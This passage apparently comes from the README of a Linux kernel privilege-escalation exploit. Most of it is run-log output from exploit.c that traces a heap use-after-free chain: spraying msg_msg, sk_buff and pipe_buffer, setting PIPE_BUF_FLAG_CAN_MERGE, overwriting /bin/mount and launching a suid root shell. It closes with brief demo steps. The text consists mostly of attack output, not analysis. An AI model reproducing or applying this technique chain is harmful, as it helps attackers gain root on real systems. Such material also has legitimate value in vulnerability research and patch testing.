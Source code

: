 ```
[*] exploit.c:939 [4-7] spray sk_buff->data to re-acquire the 0x400 slab freed by msg_msg
[*] exploit.c:953 [4-8] free sk_buff->data using fake msqid
[*] exploit.c:956 [+] freed using msqid 171
[*] exploit.c:962 [4-9] spray 0x100 pipe_buffer to re-acquire the 0x400 slab freed by sk_buff->data
[*] exploit.c:979 [4-10] free sk_buff->data to make pipe_buffer become UAF
[+] exploit.c:995 [+] uaf_pipe_idx: 0
[*] exploit.c:1004 [4-11] edit pipe_buffer->flags = PIPE_BUF_FLAG_CAN_MERGE
[*] exploit.c:1016 [4-12] try to overwrite /bin/mount
[*] exploit.c:1025 [*] see if /bin/mount changed ...
[+] exploit.c:1038 [+] exploit success!!!
[*] exploit.c:1072 [5] notify sub-process to execute suid-shell ...
[*] exploit.c:1078 [6] begin to execute suid-shell ...
```
Then the exploit message will show up.

3. Stop recording
